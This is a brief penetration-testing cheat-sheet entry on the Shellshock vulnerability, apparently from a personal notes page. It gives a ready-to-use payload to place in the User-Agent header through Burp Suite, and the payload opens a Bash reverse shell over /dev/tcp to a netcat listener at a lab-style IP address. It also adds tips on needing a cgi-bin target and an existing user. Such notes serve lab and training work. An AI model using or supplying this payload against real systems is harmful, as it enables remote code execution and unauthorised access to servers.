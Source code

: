<h1>Vulnerabilities & exploitation</h1>


<h1>Shellshock</h1>

<h3>Burpsuite usage:</h3>

Use this payload in User-Agent to open a reverse shell to a netcat listener:
* () { :; };bash -i >& /dev/tcp/10.10.14.5/4141 0>&1 

- Note: You must have a target directory in cgi-bin and if you have credentials options, use an existing user. (root etc.)
